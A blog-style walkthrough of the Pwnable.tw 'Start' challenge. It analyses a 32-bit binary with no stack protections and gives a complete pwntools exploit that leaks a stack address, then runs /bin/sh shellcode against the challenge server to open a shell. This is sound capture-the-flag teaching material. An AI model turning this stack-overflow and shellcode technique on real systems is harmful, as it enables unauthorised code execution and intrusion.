 ```yaml
---
layout: post
title:  "Pwnable TW Walkthrough"
date:   2024-12-27 19:59:45 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Start

The first challenge, we're given relatively small 32-bit binary:

```bash
$ checksec ./start
Arch:       i386-32-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX disabled
PIE:        No PIE (0x8048000)
Stripped:   No

$ file ./start
./start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

In addition to being statically linked, the binary has no libc, and seems to be a manually-written assembly file. IDA Decompilation attempt fails. \
By reading the assembly, it seems to be pushing the "Let's start the CTF:" string to the stack. It then 
writes this message to `stdout`. By using `stace`, we can see it then attempts to read 60 bytes off the user, right to the same stack address of the prompt string. Hence, linear stack overflow. \
The solution is simple - write shellcode, make sure the RA is set to its address. 

The main challenge is the fact that there's ASLR, and we have no leak. But notice the binary isn't PIE, hence we can jump to static code addresses. A very interesting code to jump to, is right before the call to `write`:

```bash
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h  // sys_write
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h  // sys_read
```

This means we can easily obtain stack leak, as we can print values that resides within the stack. Win.

```python
#!/usr/bin/python3

from pwn import *
from time import sleep

HOST = 'chall.pwnable.tw'
PORT = 10000
context.arch='i386'
BINARY = './start'
GDB_SCRIPT = '''
b *_start+60
commands
    p "In start.."
end

c
'''

READ_BUF_SIZE = 60
WRITE_BUF_SIZE = 0x14
WRITE_STACK_BUF_TO_STDOUT_ADDR = 0x8048087
SHELLCODE = '''
mov ebx, {0}
xor ecx, ecx
xor edx, edx
push 0x0b
pop eax
int 0x80

BIN_SH:
.ascii "/bin/sh"
.byte 0x00
'''
# Unfortunately, x86 doesn't supports "lea ebx, [eip + BIN_SH]". Moved the raw offset for it..
OFFSET_TO_BIN_SH = 0x0e


def leak_stack_addr(p):
    buf = b'A' * WRITE_BUF_SIZE # pad
    buf += p32(WRITE_STACK_BUF_TO_STDOUT_ADDR)
    p.send(buf)
    leak_buf = p.recv(WRITE_BUF_SIZE)
    assert(len(leak_buf) == WRITE_BUF_SIZE)
    
    addr = u32(leak_buf[: 4])
    return addr

def write_and_jump_to_shellcode(p, shellcode_addr):
    buf = b'B' * WRITE_BUF_SIZE
    buf += p32(shellcode_addr) 
    shellcode_asm = SHELLCODE.format(shellcode_addr + OFFSET_TO_BIN_SH)
    log.info(f'Writing shellcode:\n{shellcode_asm}')
    buf += asm(shellcode_asm)
    buf += b'C' * (READ_BUF_SIZE - len(buf))
    p.send(buf)

def exploit(p):
    p.recvuntil(b"Let's start the CTF:")
    stack_leak = leak_stack_addr(p)    
    shellcode_addr = stack_leak + WRITE_BUF_SIZE
    log.info(f'stack_leak: {hex(stack_leak)} shellcode_addr: {hex(shellcode_addr)}')
    write_and_jump_to_shellcode(p, shellcode_addr)


def main():
    is_debug = False 
    is_remote = True
    if is_debug:
        p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    else:
        if is_remote:
            p = remote(HOST, PORT)
        else:
            p = process(BINARY)

    exploit(p)

    log.info('Win')
    p.interactive()

if __name__ == '__main__':
    main()
```
